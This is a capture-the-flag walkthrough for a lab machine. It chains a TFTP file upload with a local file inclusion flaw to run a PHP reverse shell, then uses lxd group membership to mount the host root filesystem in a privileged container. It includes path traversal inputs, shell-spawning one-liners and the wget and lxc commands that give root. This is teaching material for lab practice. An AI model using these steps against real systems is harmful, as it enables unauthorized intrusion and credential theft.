PORT   STATE   SERVICE
69/udp  open   filtered tftp
```

The UDP scan found **port 69** to be open, which hosts the **TFTP**
service.

TFTP or "Trivial File Transfer Protocol", is similar to FTP but much
simpler. It provides functionality only for uploading or downloading
files from a server.

Let's see if we can connect to TFTP and upload a file.

We first create a file named “**test.txt”**

<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;"></div>


We connect and confirm that we can upload files.
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;"></div>


### &#9702; LFI(Local File Inclusion)


Let’s check if the URL of the website “**http://10.10.10.55/?file=index.php**" is vulnerable to ***Local File Inclusion*.**
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>


We can test by changing the URL to the following:
```
  http://10.10.10.55/?file=../../../../etc/passwd
```
This is successful, and **passwd** contents are returned by the server.
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>

### &#9702; Foothold


We can try upload and execute a “PHP reverse shell ” by combining the LFI
vulnerability with the TFTP service. This happens due to the inclusion
of the PHP code by the vulnerable page, which results in it's execution.

First we have to modify the PHP reverse shell  which cane be taken from
*here* if not present on our kali system.
<div style="width:100%; background-color:#252b34;text-align:left;border: 1px solid black;" ></div>

Let’s copy the file into our folder with name “**rev.php**”
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

As usual, let’s modify the code for our needs:
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>

Once changed the IP address and the port, we upload our PHP reverse
shell .
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;"></div>

Let's start a netcat listener before navigating to the shell .
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;"></div>

Next, we can use the LFI to access the reverse shell .

-   The *default TFTP root folde*r is **/var/lib/tftpboot.**

Navigating to
*http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php*, due to
the inclusion of the PHP code by the vulnerable page, will results in
the PHP reverse shell  execution.
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

***We could have also used the “curl” tool as follow:***
``` shell 
kali@kali:~/HTB/StartingPoint/Included$ curl  http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php
```

And we get the reverse shell :
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

The low privilged www-data user isn't allowed to read user files, let’s
update the shell  as www-data
``` shell 
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

Below some other ways to spwan a TTY shell . The top 3 would be most
successful in general for spawning from the command line.

-   **python3 -c 'import pty; pty.spawn("/bin/sh")'**

-   **echo os.system('/bin/shell ')**

-   **/bin/sh -i**

-   **perl —e 'exec "/bin/sh";'**

-   **perl: exec "/bin/sh";**

-   **ruby: exec "/bin/sh"**

-   **lua: os.execute('/bin/sh')**

-   (From within IRB) **exec "/bin/sh"**

-   (From within vi) **:!shell**

-   (From within vi) **:set shell =/bin/shell :shell**

-   (From within nmap) **!sh**

Many of these will also allow you to escape jail shells (link)

From the etc/passwd file we see that we can see there is a user “mike”
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

We can switch to the user mike using the su command (link) with the password founded on the previous machine (<a href="#Sheffield19">Pathfinder</a>).
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>

As shown below, once updated the shell as www-data, we can logged (using the su command) in as mike. 
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

At location /home/mike we can find the user.txt file
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

We also notice that mike is a **lxd** member
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

The LXD group is a high-privileged linux group; a member of the local
“lxd” group can instantly escalate the privileges to root on the host
operating system.
<br><br>

&#x25B9; ***Container and virtualization tools***(<a href="https://linuxcontainers.org/" target="_blank">link</a>)

While VMs supply a complete environment, system containers offer an environment as close as possible to the one you'd get from a VM, but without the overhead that comes with running a separate kernel and simulating all the hardware.


### &#x25B9; LXD
&#9702; ***Introduction to LXD and LXC***  (<a href="https://linuxcontainers.org/" target="_blank">link</a>)

Introduction to LXD and LXC (link)
The vulnerability exists even with the LXD snap package , this is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. 
LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.
One of them is to use the LXD API to mount the host’s root filesystem into a container which is going to use in this post. This gives a low-privilege user root access to the host filesystem. 

•	***Linux Container (LXC)*** are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine, which creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

•	***Linux daemon (LXD)*** is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.


### &#9702; LXD Privilege Escalation


Privilege escalation through lxd requires the access of local account.

**Note**: the most important condition is that the user should be a memberof lxd group (***in our case is 108, but it could have been any othernumber***)
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

First, we have create an image for lxd, thus we first need to clone on
our local machine the following build-alpine repository
``` shell 
git clone https://github.com/saghul/lxd-alpine-builder.git
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

We move into the lxd-alpine-builder
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>


And execute the “./build-alpine” file

<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

On running the above command, a “**tar.gz**” file is created. Now we
have to transferred this “tar.gz” file from the attacker machine to the
host (victim) machine.

We can use the following python command to start a local webserver
``` shell 
python -m SimpleHTTPServer 8888
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

On the host(victim) machine we can download the file “**tar.gz**” using
the command “wget” as follow:

-   First we move into the /tmp folder

-   Then we run the command

``` shell 
mike@included:/$ cd /tmp
mike@included:/tmp$ wget 10.10.14.3:8888/alpine-v3.10-x86_64-20191008_1227.tar.gz
```


We will see that our file has been transferred/downloaded.
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>


Next, we run the following commands to get the root.

First we built the image and can be added as an image to LXD as follows:

``` shell 
mike@included:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200728_1438.tar.gz --alias <aliasName>
mike@included:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200728_1438.tar.gz --alias rootimage
```


In the above command we used “rootimage” as ALIAS but it could ahve been
any name
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>


We can use the list command to check the list of images
``` shell 
mike@included:/$
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

The command above will let us have access to the entire filesystem from
within the container.
``` shell 
mike@included:/tmp$ lxc  init <aliasName>  ignite -c   security.privileged=true
mike@included:/tmp$ lxc  init  rootimage   ignite -c   security.privileged=true
mike@included:/tmp$ lxc  config  device  add  ignite  mydevice  disk source=/ path=/mnt/root recursive=true
```

The next set of commands start the container and drop us into a shell 
(as root) on it.
``` shell 
mike@included:/tmp$ lxc  start  ignite
mike@included:/tmp$ lxc  exec  ignite  /bin/sh
```
We can now navigate to /mnt/root/root/ and read root.txt along with
login.sql, which reveals credentials.
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

The **login.sql** file reveals some credentials
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>

